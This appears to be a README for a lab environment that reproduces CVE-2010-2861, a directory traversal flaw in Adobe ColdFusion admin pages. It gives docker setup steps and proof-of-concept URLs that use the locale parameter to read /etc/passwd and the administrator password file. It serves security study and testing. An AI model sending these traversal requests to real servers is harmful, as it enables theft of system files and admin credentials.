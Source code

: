 # Adobe ColdFusion Directory Traversal Vulnerability (CVE-2010-2861)

[中文版本(Chinese version)](README.zh-cn.md)

Adobe ColdFusion is a commercial rapid web-application development computing platform created by J. J. Allaire in 1995.

There is a directory traversal vulnerability in the Adobe ColdFusion 9.0.1 and earlier, which allow remote attackers to read arbitrary files via the locale parameter to (1) CFIDE/administrator/settings/mappings.cfm, (2) logging/settings.cfm, (3) datasources/index.cfm, (4) j2eepackaging/editarchive.cfm, and (5) enter.cfm in CFIDE/administrator/.

## Environment setup

Execute the following command to start Adobe CouldFusion 8.0.1 server:

```
docker-compose up -d
```

The server startup may take 1~5 minutes. After that, visit `http://your-ip:8500/CFIDE/administrator/enter.cfm` to see the initialization page, enter the password `admin` to initialize the entire server.

## POC

Read the file `/etc/passwd` via `http://your-ip:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../etc/passwd%00en`:

![](1.png)

Read the background administrator password via `http://your-ip:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../lib/ password.properties%00en`:

![](2.png)
